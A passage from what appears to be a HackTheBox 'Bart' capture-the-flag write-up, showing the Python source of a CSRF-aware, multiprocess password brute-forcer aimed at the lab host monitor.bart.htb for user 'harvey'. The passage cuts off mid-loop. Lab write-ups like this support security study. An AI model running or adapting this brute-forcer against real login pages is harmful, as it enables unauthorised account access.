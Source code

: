## Beyond Root

### brute forcer source

`brute_monitor_login.py`:

```

#!/usr/bin/env python3

import re
import requests
import sys
from multiprocessing import Pool

MAX_PROC = 50
url = "http://monitor.bart.htb/"
username = "harvey"

#<input type="hidden" name="csrf" value="aab59572a210c4ee1f19ab55555a5d829e78b8efdbecd4b2f68bd485d82f0a57" />
csrf_pattern = re.compile('name="csrf" value="(\w+)" /')

def usage():
    print("{} [wordlist]".format(sys.argv[0]))
    print("  wordlist should be one word per line]")
    sys.exit(1)

def check_password(password):

    # get csrf token and PHPSESSID
    r = requests.get(url)
    csrf = re.search(csrf_pattern, r.text).group(1)
    PHPSESSID = [x.split('=')[1] for x in r.headers['Set-Cookie'].split(';') if x.split('=')[0] == 'PHPSESSID'][0]

    # try login:
    data = {"csrf": csrf,
            "user_name": username,
            "user_password": password,
            "action": "login"}
    proxies = {'http': 'http://127.0.0.1:8080'}
    headers = {'Cookie': "PHPSESSID={}".format(PHPSESSID)}
    r = requests.post(url, data=data, proxies=proxies, headers=headers)

    if '<p>The information is incorrect.</p>' in r.text:
        return password, False
    else:
        return password, True

def main(wordlist, nprocs=MAX_PROC):
    with open(wordlist, 'r', encoding='latin-1') as f:
       words = f.read().rstrip().replace('\r','').split('\n')

    words = [x.lower() for x in words] + [x.capitalize() for x in words] + words + [x.upper() for x in words]

    pool = Pool(processes=nprocs)

    i = 0
    print_status(0, len(words))
    for password, status in pool.imap_unordered(check_password, [pass_ for pass_ in words]):
        if status:
```